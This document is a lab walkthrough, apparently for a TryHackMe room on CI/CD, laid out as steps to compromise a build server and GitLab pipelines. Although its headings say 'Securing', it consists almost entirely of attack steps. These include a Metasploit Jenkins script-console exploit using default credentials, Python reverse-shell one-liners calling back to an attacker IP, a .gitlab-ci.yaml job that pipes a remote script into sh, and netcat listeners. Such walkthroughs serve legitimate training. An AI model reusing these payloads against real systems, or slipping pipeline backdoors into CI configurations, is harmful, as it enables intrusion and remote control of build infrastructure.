 
## Securing Build Server

1. run `msfconsole -q`
2. use exploit: `exploit/multi/http/jenkins_script_console`
3. Username: `jenkins`
4. Password: `jenkins`
5. RHOSTS: `jenkins.tryhackme.loc`
6. RPORT: `8080`
7. TARGETURI: `/`
8. TARGET: `1`
9. PAYLOAD: `linux/x64/meterpreter/bind_tcp`
10. **run**

---

## Securing the Build Pipeline

1. login to **Gitlab**: `anatacker`:`Password1@`
2. Goto: `http://gitlab.tryhackme.loc/ash/approval-test`
3. Create `shell2.sh` file
    ```sh
    /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.44.89",9292)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
    ```
4. (if not working) Run on local: `python3 -m http.server 9090`
5. Run on local: `nc -lnvp 9292`

---

6. Edit `.gitlab-ci.yaml`
```yaml
   stages:
     - deploy

   production:
     stage: deploy
     script:
       - 'curl http://10.50.44.89:9090/shell2.sh | sh'
     environment:
       name: ${CI_JOB_NAME}

```

7. **Commit** and **Merge**!

---

## Secure Build Environment

1. login to **Gitlab**: `anatacker`:`Password1@`
2. Goto: `http://gitlab.tryhackme.loc/ash/environments/`
3. Create `shell3.sh` file
    ```sh
    /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.44.89",9393)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
    ```
4. (if not working) Run on local: `python3 -m http.server 9090`
5. Run on local: `rlwrap nc -lnvp 9393`

---